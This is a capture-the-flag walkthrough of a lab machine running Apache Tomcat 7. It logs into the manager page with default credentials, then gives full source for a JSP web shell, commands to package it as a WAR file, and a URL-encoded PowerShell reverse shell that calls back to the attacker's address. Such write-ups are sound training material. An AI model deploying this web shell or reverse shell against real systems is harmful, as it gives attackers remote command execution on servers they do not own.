


## Enumeration

We start by running nmap to see what ports are on on the target machine 
```bash
nmap -sV -sC 10.10.10.95
```
`-sV` enables version detection.
`-sC` runs default scripts
Output:
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 01:32 CEST
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.32 seconds
```
We see its tomcat!

There are a few ways to find out what version of tomcat we are using, if we go to an unknown path like:
```bash
http://10.10.10.95:8080/ok
```

## Observations

We can go to:
```bash
http://10.10.10.95:8080/manager/html
```

We but we dont know the password :( 
Lucky someone left their password unchanged as we can see if we click cancel.

```bash
...
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
...
```
Now if we use that we are in!

## Exploit

As we know if we are in we can get a reverse shell by uploading a war file, if we go down to `WAR file to deploy` 

So lets make a war file that can give us a shell! 
Create a cmd.jsp file
```jsp
<%@ page import="java.io.*" %>
<%@ page import="java.util.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
        BufferedReader stdError = new BufferedReader(new InputStreamReader(p.getErrorStream()));

        String s;
        while ((s = stdInput.readLine()) != null) {
            out.println(s + "<br>");
        }
        while ((s = stdError.readLine()) != null) {
            out.println("<span style='color:red'>" + s + "</span><br>");
        }
    } else {
        out.println("No command received. Use ?cmd=...");
    }
%>
```

```bash
mkdir -p shell/WEB-INF
cp cmd.jsp shell/
echo "<web-app/>" > shell/WEB-INF/web.xml
cd shell
zip -r ../shell.war *
```
And boom you got a shell.war!

Now upload it.
if we want to interact with the web shell 
```bash
http://10.10.10.95:8080/shell/cmd.jsp?cmd=whoami
```
but we dont want a web shell.

## Privileges Escalation

set up a listener:
```bash
nc -lvnp 4444
```

Pop the shell 
```bash
curl 'http://10.10.10.95:8080/shelll/cmd.jsp?cmd=powershell%20-NoP%20-NonI%20-W%20Hidden%20-Exec%20Bypass%20-Command%20%22%24client%3DNew-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.15%27%2C4444%29%3B%24stream%3D%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%3D0..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%3D%24stream.Read%28%24bytes%2C0%2C%24bytes.Length%29%29%20-ne%200%29%7B%24data%3D%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%24i%29%3B%24sendback%3D%28iex%20%24data%202%3E%261%20%7C%20Out-String%29%3B%24sendback2%3D%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%3D%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%22'
```

Grab the flags!
```bash
PS C:\apache-tomcat-7.0.88> Get-Content "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt" 
user.txt
7004dbcef0f854e*****************

root.txt
04a8b36e1545a45*****************
PS C:\apache-tomcat-7.0.88> 
```

Ty for following along!